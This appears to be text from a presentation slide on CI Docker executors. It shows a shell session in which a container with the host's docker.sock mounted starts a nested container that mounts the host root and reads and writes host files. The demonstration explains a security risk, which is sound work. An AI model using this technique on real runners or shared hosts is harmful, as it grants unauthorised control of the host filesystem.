

# CI Executors -- Docker Executor (DooD)

Experiment
Run a docker container (test-a) binding /var/run/docker.sock on host.
Run a sub-docker container (test-b) in A, with volume map “-v /:/mnt”
The result shows test-b can access and operate / on host

[container test-a]

[container test-b]
docker run -it –name test-b -v /:/mnt docker sh
/ # ls /mnt/flag*
/ # touch /mnt/test.stub

/mnt
yxxie@commqa_des09:~$ sudo touch /flag_host
yxxie@commqa_des09:~$ docker run -it --rm -v /var/run/docker.sock:/var/run/docker.sock docker sh
/ #
/ # touch /flag_dockerA
/ # docker run -it --rm -v /:/mnt docker sh
/ # ls /mnt/flag*
/mnt/flag_host
/ # touch /mnt/test.stub

## in host shell
yxxie@commqa_des09:~$ ls /test*
/test.stub
Docker Client
docker run -it –name test-a -v /var/run/docker.sock:/var/run/docker.sock docker sh
(/var/run/docker.socket)

Runner host

Runner
Docker Engine
/
/flag_host
/test.stub